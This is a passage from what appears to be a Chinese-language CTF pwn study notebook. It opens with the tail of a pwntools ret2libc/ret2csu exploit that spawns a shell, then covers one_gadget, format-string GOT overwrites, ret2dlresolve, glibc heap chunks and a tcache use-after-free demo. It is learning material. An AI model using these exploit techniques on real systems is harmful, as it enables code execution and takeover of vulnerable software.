payload += p64(0xdeadbeef)*7
payload += p64(main)
p.send(payload)

write_addr = u64(p.recv(8))
print("write_addr is %#x" %write_addr)

libc_base = write_addr - libc.sym['write']
print("libc_base is %#x" %libc_base)

system_addr = libc_base + libc.sym['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))


# obj = LibcSearcher("write",write_addr)
# libc_base = write_addr - obj.dump("write")
# system_addr = libc_base + obj.dump("system")
# bin_sh = libc_base + obj.dump("str_bin_sh")


pop_rdi_ret = 0x400723
ret = 0x4004c9
p.recvuntil(b"Welcome to x64_ret2csu\n")
padding = 0x80 + 0x8
payload = b"A" * padding
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(system_addr)
payload += p64(main)
p.send(payload)

p.interactive()
```

[关于学习ret2csu的总结 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/15910485.html)



这个作为gadget1,主要是用来传递参数。




这个主要就是将gadget1的参数传到edi rsi rdx中，然后就是通过call r12来调用函数。


## srop

[SROP详解-先知社区](https://xz.aliyun.com/news/12236)

调用号是15 (0xf)

后面再跟上syscall

然后需要记一下信号帧的结构




## onegadget




首先就是寻找对应的libc文件的onegadget,然后可以将返回地址改成这个onegadget,之后就可以直接跳过去。

```
one_gadget ./libc-2.23.so
```

显示更多，

```
onegadget ./libc-2.23.so -l2
```

寻找与某一个函数相接近的

```
one_gadget ./libc-2.23.so --near read
```

这个时候就可以尾字节覆盖，修改read函数

因为ASLR只会改变基址，但是偏移并不会改变，所以只需要改变低字节就行，但是两个地址必须在同一个内存页里，这个时候只需要修改低字节就可以。


## 格式化字符串

[PWN笔记-3 | Guge'sBlog](https://gugesay.com/blog/pwn笔记-3/)


简述：C语言中printf函数中所蕴含的漏洞

例如：

int a=10;

printf("%d",a);

最后输出的结果就是10进制所定义的数值

格式化字符串：例如像%d,就是一些格式化字符串



而

printf("%d %d %d",1,2);

需要输出的是3个参数，而实际上仅仅只是传入了2个参数，所以这个时候就会打印出除了1,2之后还有一个参数

而，我觉得利用的主要就是


%n$n

type-->格式化字符串

### 1.(str)%n$n

将str输出的字符串个数输入第n个内存地址中

### 2.%nc

`%c` 原本功能：打印**1 个字符**（取栈上参数的 ASCII 值输出）。

当写成 `%Nc`（N 是数字，比如`%777c`），代表**固定输出 N 个字符**：

（str）%111c%11$n

将str+111个字节数写入11内存处

### 3.覆盖小数字



如果想要将一个地址内的内容改成一个比4小的数字。

我们知道

（str）%6$n

就是将字符串数写入格式化字符串后第六个位置

所以这个时候

如果想讲一个地址内容改为2

只需要       aa%8  $naa  p32(addr)

aa%8 第6个参数

$naa第7个参数

p32(addr)第8个参数

### 4.覆盖大数据

x86 架构是**小端序**：**低字节存低地址，高字节存高地址**。

目标值 `0x12345678` 拆分 4 个单字节：

完整十六进制数字：`0x 12  34  56  78`

- 最高字节：`0x12`
- 次高字节：`0x34`
- 次低字节：`0x56`
- 最低字节：`0x78`

按照小端存入连续内存：

表格

|  内存地址  | 存储字节 | 对应数值片段 |
| :--------: | :------: | :----------: |
| `b_addr+0` |  `0x78`  |  最低 8 位   |
| `b_addr+1` |  `0x56`  |  次低 8 位   |
| `b_addr+2` |  `0x34`  |  次高 8 位   |
| `b_addr+3` |  `0x12`  |  最高 8 位   |

3. 位运算公式拆解：`变量值 = (字节3 << 24) | (字节2 << 16) | (字节1 << 8) | 字节0`

移位 `<<` 作用：把单字节放到对应权重的二进制位上

1. 字节 0（0x78，b_addr+0）→ 最低 8 位

   不做移位，直接占 

   ```
   0~7
   ```

    二进制位：

   ```
   0x78
   ```

2. 字节 1（0x56，b_addr+1）→ 次低 8 位

   ```
   << 8
   ```

   ：向左移 8 个二进制位，占据 

   ```
   8~15
   ```

    位：

   ```
   0x5600
   ```

3. 字节 2（0x34，b_addr+2）→ 次高 8 位

   

   ```
   << 16
   ```

   ：向左移 16 个二进制位，占据 

   ```
   16~23
   ```

    位：

   ```
   0x340000
   ```

4. 字节 3（0x12，b_addr+3）→ 最高 8 位

   

   ```
   << 24
   ```

   ：向左移 24 个二进制位，占据 

   ```
   24~31
   ```

    位：

   ```
   0x12000000
   ```

`|` 是按位或，把四段拼接成完整 4 字节数字：

plaintext

```
0x12000000
| 0x340000
| 0x5600
| 0x78
= 0x12345678
```



### 5.修改got表

```python
payload=fmtstr_payload(offset, {printfGOT:systemAddress})
r.sendline(payload)
```

offset相对于格式化字符串的偏移

后面就相当于，将printf的got表改成system函数


（算了，先学到这吧）（那个非栈上的什么指针链，smff,zgln我去了，真的有点不太懂啊，就只知道是将got表分块写到栈上，然后再接着写入，修改printfGot表）


## ELF文件








## 整数溢出

- 无符号上溢：无符号数0xFFFFFFFF加1变为0的情况。
- 无符号下溢：无符号数0减去1变为0xFFFFFFFF的情况。
- 有符号上溢：有符号数正数0x7FFFFFFF加1变为负数0x80000000，即十进制-2147483648的情况。
- 有符号下溢：有符号负数0x80000000减去1变为正数0x7FFFFFFF的情况。

1. 溢出，只有有符号数才会发生溢出。有符号数的最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出。`溢出标志OF`可检测有符号数的溢出；
2. 回绕，无符号数0减1时会变成最大的数，如1字节的无符号数会变为255，而255加1会变成最小数0。`进位标志CF`可检测无符号数的回绕；

根据其各自的特性来决定的，

3.截断：



加法截断，如果放到64位里面就会显现出完整的数，但是如果是32位就会截取低32位，只剩0.


## DL

[ret2dlresolve超详细教程(x86&x64)-CSDN博客](https://blog.csdn.net/qq_51868336/article/details/114644569)

这啥

[[新手向\]ret2dl-resolve详解 - 知乎](https://zhuanlan.zhihu.com/p/37572651)

基础概念

PLT = Procedure Linkage Table，过程链接表

plt [0]（plt0）：全局唯一，公共跳板入口

```
push [ebx+4]    # push link_map* l (参数1)
jmp _dl_runtime_resolve
```


reloc_arg：偏移量

是目标重定位结构体地址距离rel.plt起始地址的距离


.rel.plt = Relocation for PLT，用于 PLT 延迟绑定的重定位段

里面存的是数组，而每一个数组都是一个Elf32_Rel 结构体


rel = l->l_reloc + reloc_arg

l->l_reloc 是结构体里的一个成员：


```c
Elf32_Rel *l_reloc;
```

**指针**，保存 **`.rel.plt` 段的起始虚拟地址**。


重定位结构体：

```c
struct Elf32_Rel {
    Elf32_Addr r_offset; // 要填充的GOT地址
    Elf32_Word r_info;
};
```

r_info:


高24位：符号下标 num 

低 8位：重定位类型 type

```c
num = r_info >> 8;    // 向右移动8位，直接丢掉最低8位type，取出高24位num
type = r_info & 0xff; // 和0xff按位与，保留最低8位，获取重定位类型
```


sym = l->l_symtab + num*16(找到需要的符号结构体)

l->l_symtab  → .dynsym  起始地址，Elf32_Sym数组首地址


Elf32_Sym 符号结构体：

```c
struct Elf32_Sym {
    Elf32_Word    st_name;   // 4字节
    Elf32_Addr    st_value;  // 4字节
    Elf32_Word    st_size;    // 4字节
    unsigned char st_info;    // 1字节
    unsigned char st_other;   // 1字节
    Elf32_Half    st_shndx;   // 2字节
};
// 总大小 = 16字节（0x10）
```

我们需要的是符号结构体中的st_name

l->l_strtab  → .dynstr  起始地址，字符串表首地址


```c
char *func_name = l->l_strtab + st_name;
```


这样就找到了函数名地址，之后就去寻找这个函数真实地址返回到一开始的重定位结构体中的offset就是一开始伪造的got表中，这样之后调用这个函数不再进行解析，直接去这个got表中获得函数地址，而这个函数地址已经被我们修改为system函数地址


## 堆

[CTF pwn 中最通俗易懂的堆入坑指南-安全KER - 安全资讯平台](https://www.anquanke.com/post/id/163971#:~:text=首先先明确一下堆的概念，堆不同于栈，堆是动态分配的（由操作系统内核或者堆管理器），只有在程序中需要时才会分配。 在 CTF 的 pwn,程序中，栈是程序加载进内存后就会出现，而堆是由 malloc、alloc、realloc 函数分配内存后才会出现。 先看看堆在虚拟内存中的位置 堆的生长方向是从低地址向高地址生长的，而栈是从高地址向低地址生长的。)

#### 堆的内存结构

运行过程中被malloc分配的内存为一个chunk，这块内存在ptmalloc中用malloc_chunk结构体表示

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};

```


堆块的不同状态：

正在使用时


mem：malloc() 返回给程序的指针（用户可用区域起始）

prev_size：只有前一个 chunk 空闲的时候，这个字段才有效；前一块正在使用，此字段无意义。

P bit（最低位，Prev_inuse）
P=1：前相邻 chunk 正在被占用
P=0：前相邻 chunk 空闲，free 时会触发向前合并
M bit：mmap 分配标记（大块直接 mmap 出来的堆块才置 1，不进入任何 bin）
A bit：非主 arena 标记（子线程 arena 置 1）


被free时


堆被释放之后存在了bins里



先分配给fastbins然后再在smallbins然后在largbins寻找，最后去unsortedbins其它的现在还不清楚。







[[原创\]how2heap深入浅出学习堆利用-Pwn-看雪安全社区｜专业技术交流与安全研究论坛](https://bbs.kanxue.com/thread-272416-1.htm)


### UAF

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    char *p = malloc(0x20);
    printf("p = %p\n", p);

    // 填充测试数据
    *(long long*)(p + 0x00) = 0x1111111111111111;
    *(long long*)(p + 0x08) = 0x2222222222222222;

    printf("-----free(p)\n");
    free(p);

    // ========= UAF 漏洞 =========
    printf("UAF read p: %s\n", p);

    // ✅正确：UAF写，直接修改tcache fd（fd就在p起始位置）
    *(long long *)p = 0xdeadbeef;

    // 第一次malloc：取出当前tcache里的0x4052a0，entry更新为我们伪造的fd=0xdeadbeef
    char *a = malloc(0x20);
    printf("a = %p\n", a);

    // 第二次malloc：返回伪造地址0xdeadbeef，拿到fake指针（AAW）
    char *fake = malloc(0x20);
    printf("fake ptr = %p\n", fake);

    getchar(); // 暂停，pwndbg调试用
    return 0;
}
```

来一步一步调一下

```c
  char *p = malloc(0x20);
```

这个就是申请堆空间，然后给p返回了一个地址



没有执行之前

执行完之后



当然看不懂了，来瞅瞅豆沙

首先就是0x290就是glibc自己申请的管理结构，里面有一些释放的堆块记录


然后下面那个，大小为0x30的就是我们申请的。

但是我们申请的是0x20，这是因为还包括了头部0x10字节，就是



剩下的top_chunk就是等着被malloc的空间



```powershell
